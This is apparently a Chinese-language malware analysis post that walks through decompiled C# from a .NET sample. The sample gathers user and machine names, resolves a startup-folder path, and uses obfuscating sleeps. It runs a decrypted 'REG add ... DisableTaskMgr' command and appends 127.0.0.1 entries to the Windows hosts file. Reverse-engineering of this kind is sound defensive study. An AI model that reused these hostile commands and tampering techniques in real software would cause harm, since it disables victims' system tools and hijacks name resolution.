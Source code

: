 ```c#
kqb.zcg = SystemInformation.UserName + "/" + SystemInformation.ComputerName;     //获取与当前线程相关联的用户名。获取本地计算机的 NetBIOS 计算机名称。这里获取到"xxx/DESKTOP-DL5BA6A"
kqb.zmy = Environment.GetEnvironmentVariable(.@decrypt_the_string\u200F(113836)) + .@decrypt_the_string\u200F(113860);        //第一个解密出"%startupfolder%"（好像是开机启动项），从当前进程检索环境变量的值，这里检索 Startup 文件夹的完整路径，但是并没有该文件夹，第二个解密出 "\%insfolder%\%insname%"
kqb.@get_current_path = Assembly.GetExecutingAssembly().Location;
```

**以线程模式运行禁用注册表的函数：**
--------------------

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-eca1e3e0cb58b228127f35945c029683e88db8f5.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-9b50bd39e81b556dd60a5e3a59443bcc1255564d.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-0f68e9e62a73181a5ee8f468e2a2212c01b9f137.png)

```c#
kqb.@confuse_sleep(25, 20);    //时间混淆，拖慢分析进度。

thread = new Thread(new ThreadStart(kqb.koy));      //初始化 Thread 类的新实例，创建执行静态方法kqb.@registry_operation的线程。
thread.IsBackground = true;     //以后台模式创建kqb.koy方法的线程
thread.Start();     //开启该线程

@registry_operation 函数
Interaction.Shell(.@decrypt_the_string\u200F(118100), AppWinStyle.NormalFocus, false, -1);    //运行一个可执行程序，并且如果该程序仍在运行则返回一个包含该程序的进程 ID 的整数。窗口具有正常焦点，不设置超时。
//"REG add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 1 /f"
//禁用注册表，命令参考：https://jingyan.baidu.com/article/363872ec349b212f4aa16f20.html
```

**试图操作 HOST 文件：**
-----------------

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-f4a139e5608dc7e8bd3544cd2d8fee7b7c922e67.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-13081665092f0438d98de65dd4f1d57228cd6fda.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-dc91cb88a3fd8d190874ddb5f4fc9fe44f8e7155.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-9d68844a2df4b67965b2d94200099373c57e77e3.png)

```c#
string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.System);        //获取指定系统特殊文件夹的路径，这里指定system目录路径的枚举常数。值为@"C:\Windows\system32"
string path = folderPath + .@decrypt_the_string\u200F(113500);  //拼接上解密的为@"C:\Windows\system32\drivers\etc\hosts"
streamWriter = new StreamWriter(path, true);
//实现一个 TextWriter，使其以一种特定的编码向流中写入字符。用默认编码和缓冲区大小，为指定的文件初始化 StreamWriter 类的一个新实例。 如果该文件存在，则可以将其覆盖或向其追加。 如果该文件不存在，此构造函数将创建一个新文件。
//这里就是创建了一个文件夹，这是想追加数据到我的域名解析文件啊。但是被拒绝了且抛出异常

//然后我设立权限看看它写入了啥东西
streamWriter.Write(.@decrypt_the_string\u200F(113524) + array[num6]);    //将数据写入流，这里写入的竟然是 /r/n127.0.0.1
streamWriter.Dispose();    //   释放由 TextWriter 对象使用的所有资源。
```
